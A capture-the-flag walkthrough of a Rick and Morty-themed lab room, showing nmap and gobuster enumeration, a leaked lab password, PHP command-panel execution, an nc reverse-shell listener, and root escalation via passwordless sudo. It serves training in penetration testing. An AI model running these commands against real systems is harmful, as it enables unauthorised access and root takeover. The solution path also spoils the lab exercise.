



Linux · Web enumeration · PHP command execution · Sudo misconfiguration
In this Rick and Morty-themed room, Rick has turned himself into a pickle again and cannot change back. You play Morty and must compromise his web server to recover the three secret ingredients he needs for the potion that turns him back into a human. The room is a good example of how a single web server can be attacked in several ways: reading exposed files, abusing a command panel, getting a reverse shell and escalating privileges. It shows how small weaknesses chain together into a full compromise.

nmap -sV -sC <target-ip>| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80 | HTTP | Apache httpd 2.4.41 (Ubuntu) |
There were no SSH credentials at this stage, so the web server was the entry point.
gobuster dir -u http://<target-ip>/ -w /usr/share/wordlists/dirb/common.txt| Discovered path | Purpose |
|---|---|
/robots.txt | Credential disclosure |
/login.php | Login form |
/portal.php | Command panel |
/assets | Static resources |
/robots.txt contained the odd string Wubbalubbadubdub. Used with the username leaked in the source, it gave access to /login.php.
/portal.php provided a command panel that executed system commands. Running ls listed the web root, while whoami returned www-data.


nc -lvnp 4444python3 -c 'import pty; pty.spawn("/bin/bash")'With the shell established, the command filter no longer applied:
ls
cat /var/www/html/Sup3rS3cretPickl3Ingred.txt
cat /var/www/html/clue.txtThe clue indicated that the remaining ingredients were elsewhere.
cd /home
ls -la
cd /home/rick
ls -la
cat *I checked the current user's sudo privileges:
sudo -lUser www-data may run the following commands on localhost:
(ALL) NOPASSWD: ALLThe web service account could execute any command as root without a password.
sudo su
id
# uid=0(root) gid=0(root) groups=0(root)ls -la /root
cat /root/*| # | Ingredient | Location |
|---|---|---|
| 1 | Sup3rS3cretPickl3Ingred.txt | Web root |
| 2 | Second ingredient file | /home/rick/ |
| 3 | Third ingredient file | /root/ |
Recon (nmap) → page-source and robots.txt credential leaks → login → command panel RCE as www-data → reverse shell bypasses filtering → find ingredient 1 and 2 → sudo -l → sudo su → root → find ingredient 3.
www-data unrestricted sudo access creates an immediate root escalation path.